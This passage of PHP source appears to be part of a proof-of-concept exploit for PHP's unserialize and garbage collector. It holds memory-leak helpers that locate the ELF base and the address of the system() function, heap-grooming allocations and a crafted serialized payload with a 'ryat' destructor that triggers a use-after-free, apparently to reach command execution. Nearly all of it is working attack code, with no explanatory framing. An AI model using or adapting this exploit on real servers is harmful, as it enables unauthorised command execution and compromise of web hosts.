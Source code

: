 ```py
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
            return $data_addr + $i * 8;
        }
    }
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }
    class Helper {
        public $a, $b, $c, $d;
    }
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
    $n_alloc = 10; # increase this value if you get segfaults
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);
    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();
```